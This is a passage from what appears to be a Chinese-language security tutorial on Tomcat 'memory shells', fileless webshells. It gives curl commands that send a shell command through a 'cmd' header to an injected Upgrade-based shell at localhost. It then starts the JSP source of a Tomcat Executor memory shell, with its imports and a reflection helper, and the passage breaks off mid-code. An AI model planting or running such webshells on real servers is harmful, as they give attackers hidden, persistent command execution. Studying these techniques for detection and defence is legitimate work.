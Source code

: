 启动项目之后执行以下两条命令：

```bash
curl http://localhost:8080/666.jsp
curl -H "Connection: Upgrade" -H "Upgrade: hello" -H "cmd: dir" http://localhost:8080/666.jsp
```

[![](assets/1708482732-45f8d90cdc6e3b3f1ef729c5a98473d7.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003505-58a8f87a-c832-1.jpeg)

## 5.3 Tomcat Executor 内存马

由`2.15.2.3`的分析，我们可以写出下面的内存马：

```bash
<%@ page import="org.apache.tomcat.util.net.NioEndpoint" %>
<%@ page import="org.apache.tomcat.util.threads.ThreadPoolExecutor" %>
<%@ page import="java.util.concurrent.TimeUnit" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.concurrent.BlockingQueue" %>
<%@ page import="java.util.concurrent.ThreadFactory" %>
<%@ page import="java.nio.ByteBuffer" %>
<%@ page import="java.util.ArrayList" %>
<%@ page import="org.apache.coyote.RequestInfo" %>
<%@ page import="org.apache.coyote.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.net.SocketWrapperBase" %>
<%@ page import="java.nio.charset.StandardCharsets" %>
<%@ page import="java.net.URLEncoder" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%!
    public Object getField(Object object, String fieldName) {
        Field declaredField;
        Class<?> clazz = object.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(fieldName);
                declaredField.setAccessible(true);
                return declaredField.get(object);
            } catch (NoSuchFieldException | IllegalAccessException ignored) {}
            clazz = clazz.getSuperclass();
        }
```